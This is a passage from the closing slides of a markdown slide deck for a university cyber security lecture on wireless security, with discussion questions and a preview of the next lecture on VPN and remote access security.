  @apply bg-indigo-50 border-2 border-indigo-300 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Discussion Points:
- How do you balance wireless security with user convenience?
- What's your approach to securing IoT devices on wireless networks?
- How do you handle the challenge of legacy device support?

### 💡 Exercise Review
Share your wireless security strategies and discuss implementation challenges

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: VPN and Remote Access Security
### Securing Remote Connectivity and Access

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 19 Complete</p>
  <p>Wireless security: Protecting the invisible connections! 📡🔐</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 19 | Author: Milav Dabgar
</div>